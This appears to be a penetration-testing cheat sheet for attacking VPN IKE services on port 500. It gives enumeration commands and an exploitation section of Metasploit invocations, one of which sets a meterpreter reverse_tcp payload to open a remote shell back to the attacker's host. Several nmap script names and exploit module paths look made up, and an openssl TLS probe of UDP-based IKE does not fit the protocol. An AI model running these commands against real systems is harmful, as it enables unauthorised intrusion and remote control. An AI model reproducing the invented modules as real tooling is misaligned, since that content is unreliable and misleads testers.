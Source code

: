 # VPN Protocols

## Enumeration

### Metasploit

##### ikev2_enum
```bash
use auxiliary/scanner/vpn/ikev2_enum
set RHOSTS [IP]
set RPORT 500
run
```

### Nmap

##### nmap (IKE scan)
```bash
nmap -p 500 --script=ike-version [IP]
```

##### nmap (IKE fingerprint)
```bash
nmap -p 500 --script=ike-fingerprint [IP]
```

##### nmap (IKE vulnerability scan)
```bash
nmap -p 500 --script=ike-cve-2008-1645 [IP]
```

### snmpcheck

##### snmpcheck (SNMP enumeration on VPN device)
```bash
snmpcheck -t [IP] -c public
```

### OpenSSL

##### openssl (Check for IKE service)
```bash
openssl s_client -connect [IP]:500
```


---
---


## Exploitation

##### cve-2008-1645_ike
```bash
use exploit/windows/vpn/cve_2008_1645_ike
set RHOSTS [IP]
set RPORT 500
run
```

##### ikev2_auth_bypass
```bash
use exploit/windows/vpn/ikev2_auth_bypass
set RHOSTS [IP]
set RPORT 500
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [IP]
set LPORT [port]
run
```

##### ikev1_vuln
```bash
use exploit/windows/vpn/ikev1_vuln
set RHOSTS [IP]
set RPORT 500
run
```
